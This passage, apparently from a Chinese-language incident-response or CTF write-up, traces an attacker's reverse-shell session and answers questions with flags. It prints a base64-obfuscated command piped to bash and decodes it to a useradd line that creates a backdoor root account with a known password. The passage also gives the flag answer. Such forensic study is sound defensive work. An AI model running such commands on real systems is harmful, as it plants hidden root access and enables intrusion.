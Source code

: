 > 黑客新增的后门用户名密码是什么？（提交 flag\{username,password\}）

跟进反弹 shell 的会话

```plaintext
echo dXNlcmFkZCAtcCBgb3BlbnNzbCBwYXNzd2QgLTEgLXNhbHQgJ3NhbHQnIFhqQDY2Ni5gIHggLW8gLXUgMCAtZyByb290IC1HIHJvb3QgLXMgL2Jpbi9iYXNoIA==|base64 -d|bash

dXNlcmFkZCAtcCBgb3BlbnNzbCBwYXNzd2QgLTEgLXNhbHQgJ3NhbHQnIFhqQDY2Ni5gIHggLW8gLXUgMCAtZyByb290IC1HIHJvb3QgLXMgL2Jpbi9iYXNoIA==

useradd -p `openssl passwd -1 -salt 'salt' Xj@666.` x -o -u 0 -g root -G root -s /bin/bash
```

即可确定答案

```flag
flag{x,Xj@666.}
```

## 9

> 黑客新增的后门文件是什么？（提交完整路径）

使用后门账户登录服务器

![img](img/image_20241008-170858.png)

